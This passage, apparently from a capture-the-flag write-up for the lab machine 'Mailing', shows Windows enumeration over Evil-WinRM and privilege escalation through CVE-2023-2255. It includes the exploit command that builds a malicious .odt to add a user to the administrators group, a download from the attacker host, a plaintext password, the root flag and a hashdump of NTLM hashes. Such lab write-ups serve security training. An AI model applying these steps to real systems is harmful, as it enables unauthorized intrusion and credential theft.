 Volume Serial Number is 9502-BA18

 Directory of C:\Important Documents

2024-04-10  05:32 PM    <DIR>          .
2024-04-10  05:32 PM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   4,133,490,688 bytes free
```

Next we checked installed applications and found a `LibreOffice` folder.

```c
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/27/2024   5:30 PM                Common Files
d-----          3/3/2024   4:40 PM                dotnet
d-----          3/3/2024   4:32 PM                Git
d-----         4/29/2024   6:54 PM                Internet Explorer
d-----          3/4/2024   6:57 PM                LibreOffice
d-----          3/3/2024   4:06 PM                Microsoft Update Health Tools
d-----         12/7/2019  10:14 AM                ModifiableWindowsApps
d-----         2/27/2024   4:58 PM                MSBuild
d-----         2/27/2024   5:30 PM                OpenSSL-Win64
d-----         3/13/2024   4:49 PM                PackageManagement
d-----         2/27/2024   4:58 PM                Reference Assemblies
d-----         3/13/2024   4:48 PM                RUXIM
d-----         2/27/2024   4:32 PM                VMware
d-----          3/3/2024   5:13 PM                Windows Defender
d-----         4/29/2024   6:54 PM                Windows Defender Advanced Threat Protection
d-----          3/3/2024   5:13 PM                Windows Mail
d-----          3/3/2024   5:13 PM                Windows Media Player
d-----         4/29/2024   6:54 PM                Windows Multimedia Platform
d-----         2/27/2024   4:26 PM                Windows NT
d-----          3/3/2024   5:13 PM                Windows Photo Viewer
d-----         4/29/2024   6:54 PM                Windows Portable Devices
d-----         12/7/2019  10:31 AM                Windows Security
d-----         3/13/2024   4:49 PM                WindowsPowerShell
```

A quick look at the `readme_en-US.txt` showed that the application was running on version `7.4`.

```c
*Evil-WinRM* PS C:\Program Files\LibreOffice> dir


    Directory: C:\Program Files\LibreOffice


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/4/2024   6:57 PM                help
d-----          3/4/2024   6:57 PM                presets
d-----         3/14/2024   4:01 PM                program
d-----          3/4/2024   6:57 PM                readmes
d-----          3/4/2024   6:57 PM                share
-a----         6/10/2022   4:14 PM        1807470 CREDITS.fodt
-a----          7/7/2022   1:05 PM         574491 LICENSE.html
-a----          7/7/2022   1:09 PM         503055 license.txt
-a----          7/6/2022  11:40 PM           3706 NOTICE
```

```c
*Evil-WinRM* PS C:\Program Files\LibreOffice\readmes> dir


    Directory: C:\Program Files\LibreOffice\readmes


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/7/2022   5:57 PM          16144 readme_en-GB.txt
-a----          7/7/2022   5:57 PM          16146 readme_en-US.txt
-a----          7/7/2022   5:57 PM          16150 readme_en-ZA.txt
-a----          7/7/2022   5:57 PM          17545 readme_es.txt
```

```c
*Evil-WinRM* PS C:\Program Files\LibreOffice\readmes> type readme_en-US.txt


======================================================================

LibreOffice 7.4 ReadMe

======================================================================
<--- CUT FOR BREVITY --->
```

This hinted us to a potential `client-side attack` so we checked the `scheduled tasks` of `maya` but found nothing unexpected.

```c
*Evil-WinRM* PS C:\Users> schtasks /query /fo LIST /v | findstr maya
Author:                               MAILING\maya
Task To Run:                          C:\Windows\System32\cscript.exe C:\Users\maya\Documents\mail.vbs
Run As User:                          maya
Author:                               MAILING\maya
Task To Run:                          C:\Windows\System32\cscript.exe C:\Users\maya\Documents\mail.vbs
Run As User:                          maya
Author:                               MAILING\maya
Task To Run:                          python.exe C:\Users\maya\Documents\mail.py
Run As User:                          maya
Author:                               MAILING\maya
```

```c
*Evil-WinRM* PS C:\> type C:\Users\maya\Documents\mail.vbs
Set objShell = CreateObject("WScript.Shell")
objShell.Run "explorer shell:AppsFolder\microsoft.windowscommunicationsapps_8wekyb3d8bbwe!microsoft.windowslive.mail"
WScript.Sleep 5000


objShell.AppActivate "Mail"
WScript.Sleep 1000


objShell.SendKeys "{F5}"
WScript.Sleep 500
objShell.SendKeys "{ENTER}"
WScript.Sleep 500
objShell.SendKeys "{TAB}"
WScript.Sleep 500
objShell.SendKeys "{ENTER}"
WScript.Sleep 500
objShell.SendKeys "{ENTER}"
WScript.Sleep 500
objShell.SendKeys "^d"
WScript.Sleep 500
objShell.SendKeys "%{F4}"
```

```c
*Evil-WinRM* PS C:\> type C:\Users\maya\Documents\mail.py
from pywinauto.application import Application
from pywinauto import Desktop
from pywinauto.keyboard import send_keys
from time import sleep

app = Application(backend="uia").connect(title_re="Inbox*")
dlg = app.top_window()
current_count = 0
remove = 2
while True:
        try:
                unread = dlg.InboxListBox
                items = unread.item_count()
                if items==1:
                        sleep(20)
                        continue
                if items != current_count:
                        for i in range(1,items-current_count-(remove-1)):
                                if "Yesterday" in unread.texts()[i][0]:
                                        remove = 3
                                        continue
                                unread[i].select()
                                message = dlg.child_window(auto_id="RootFocusControl", control_type="Document").Hyperlink.invoke()
                                sleep(45)
                                dlg.type_keys("{ENTER}")
                                unread[i].select()
                        current_count = items - remove
                sleep(20)
        except:
                pass
```

A quick look on the other users on the `system` showed an unusual `localadmin` user.

```c
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/28/2024   8:50 PM                .NET v2.0
d-----         2/28/2024   8:50 PM                .NET v2.0 Classic
d-----         2/28/2024   8:50 PM                .NET v4.5
d-----         2/28/2024   8:50 PM                .NET v4.5 Classic
d-----         2/28/2024   8:50 PM                Classic .NET AppPool
d-----          3/9/2024   1:52 PM                DefaultAppPool
d-----          3/4/2024   8:32 PM                localadmin
d-----         2/28/2024   7:34 PM                maya
d-r---         3/10/2024   4:56 PM                Public
```

We also checked his `scheduled task configuration` and found a suspicious `PowerShell script`.

```c
*Evil-WinRM* PS C:\> schtasks /query /fo LIST /v | findstr localadmin
Task To Run:                          C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\Users\localadmin\Documents\scripts\soffice.ps1
Run As User:                          localadmin
```

## Privilege Escalation to System

### CVE-2023-2255: Unauthorized Access to External Links in LibreOffice Editor Components

A little bit of research brought up various vulnerabilities but one in particular caught our attention. `CVE-2023-2255` which is `Unauthorized Access to External Links in LibreOffice Editor Components` made it possible to gain code execution as `localadmin` and to put `maya` in the `local administrators group`.

- [https://www.libreoffice.org/about-us/security/advisories/](https://www.libreoffice.org/about-us/security/advisories/)
- [https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/](https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/)
- [https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)

We created the malicious `.odt` file and uploaded it to the `Important Documents` directory.

```c
┌──(kali㉿kali)-[/media/…/Machines/Mailing/files/CVE-2023-2255]
└─$ python3 CVE-2023-2255.py --cmd "net localgroup Administradores maya /add" --output important.odt
File important.odt has been created !
```

```c
*Evil-WinRM* PS C:\Important Documents> iwr 10.10.14.26/important.odt -o important.odt
```

```c
*Evil-WinRM* PS C:\Important Documents> dir


    Directory: C:\Important Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/5/2024   4:54 PM          30526 important.odt
```

After the directory got cleared we logged in on a second terminal window and checked our privileges.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i mailing.htb -u maya -p 'm4y4ngs4ri'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents>
```

```c
*Evil-WinRM* PS C:\Users\maya\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                         State
========================================= =================================================================== =======
SeIncreaseQuotaPrivilege                  Ajustar las cuotas de la memoria para un proceso                    Enabled
SeSecurityPrivilege                       Administrar registro de seguridad y auditor¡a                       Enabled
SeTakeOwnershipPrivilege                  Tomar posesi¢n de archivos y otros objetos                          Enabled
SeLoadDriverPrivilege                     Cargar y descargar controladores de dispositivo                     Enabled
SeSystemProfilePrivilege                  Generar perfiles del rendimiento del sistema                        Enabled
SeSystemtimePrivilege                     Cambiar la hora del sistema                                         Enabled
SeProfileSingleProcessPrivilege           Generar perfiles de un solo proceso                                 Enabled
SeIncreaseBasePriorityPrivilege           Aumentar prioridad de programaci¢n                                  Enabled
SeCreatePagefilePrivilege                 Crear un archivo de paginaci¢n                                      Enabled
SeBackupPrivilege                         Hacer copias de seguridad de archivos y directorios                 Enabled
SeRestorePrivilege                        Restaurar archivos y directorios                                    Enabled
SeShutdownPrivilege                       Apagar el sistema                                                   Enabled
SeDebugPrivilege                          Depurar programas                                                   Enabled
SeSystemEnvironmentPrivilege              Modificar valores de entorno firmware                               Enabled
SeChangeNotifyPrivilege                   Omitir comprobaci¢n de recorrido                                    Enabled
SeRemoteShutdownPrivilege                 Forzar cierre desde un sistema remoto                               Enabled
SeUndockPrivilege                         Quitar equipo de la estaci¢n de acoplamiento                        Enabled
SeManageVolumePrivilege                   Realizar tareas de mantenimiento del volumen                        Enabled
SeImpersonatePrivilege                    Suplantar a un cliente tras la autenticaci¢n                        Enabled
SeCreateGlobalPrivilege                   Crear objetos globales                                              Enabled
SeIncreaseWorkingSetPrivilege             Aumentar el espacio de trabajo de un proceso                        Enabled
SeTimeZonePrivilege                       Cambiar la zona horaria                                             Enabled
SeCreateSymbolicLinkPrivilege             Crear v¡nculos simb¢licos                                           Enabled
SeDelegateSessionUserImpersonatePrivilege Obt‚n un token de suplantaci¢n para otro usuario en la misma sesi¢n Enabled
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\localadmin\Desktop> type root.txt
d1334c1645ee5a05df354e972cca332d
```

## Post Exploitation

```c
meterpreter > hashdump
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::
```